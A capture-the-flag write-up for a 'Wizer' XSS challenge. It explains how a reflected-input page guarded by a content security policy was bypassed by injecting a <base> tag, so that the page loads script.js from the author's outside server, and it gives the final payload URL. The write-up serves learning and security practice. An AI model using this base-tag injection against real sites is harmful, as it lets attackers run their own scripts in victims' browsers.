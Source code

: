 # XSS Mitigation Demo

Inject an alert("Wizer").

# Solution

This was an interesting one.. I wasn't as "into it" at first, so it took me longer than usual.. 

It's obviously a CSP bypass vuln.. They reflect anything you submit but due to CSP you can't just submit something like `<script>alert("Wizer");</script>` due to the CSP, it won't run..

## Failures

I first tried to submit a payload that would break out of my `<p>` tag and run into the existing `<script>` tag, therefore using the existing nonce. But that was always off by a character.

## Keep a Solid Base

Then, due to having created a CSP for some chat-app I was writing, I knew you could run the CSP through an auditor/evaluator and it would tell you where you are still vulnerable. Well, I ran the site through [this evaluator](https://csp-evaluator.withgoogle.com/) and it told me the site was vulnerable to `<base>` tag abuse.

Base tag abuse is where you essentially provide the 'root' URL for all resources loaded on a page but via an HTML tag (the `<base>` tag). Specifically, the `href` attribute : eg.. `<base href="https://some-server.com">`

For example, if you had a server hosted at `https://foo.com` and the HTML looked like this:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <!-- THIS SCRIPT -->
  <script src="/script.js"></script>
</body>
</html>
```

..it would try to load the script from `https://foo.com/script.js`.

But if you had this HTML...

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <!-- I believe you would normally put the base tag in the head, but this still works -->
  <base href="https://bar.org">
  <!-- THIS SCRIPT -->
  <script src="/script.js"></script>
</body>
</html>
```

..it would try to load `/script.js` from `https://bar.org/script.js` (even though the site you are currently at is `https://foo.com`)... due to the `<base>` tag. 

## Done

So after trying to host a GitHub Gist with `alert("Wizer")` and failing, I just setup a little test server on Render[dot]com to host my `script.js` and bam, it worked! Ultimately, this was the payload : `https://chal48-avu8s.vercel.app/?input=<base+href="https://rtchat-pentest.onrender.com/"+/>` (I have since removed that route, so people can't cheat lol I doubt anyone reads these though)...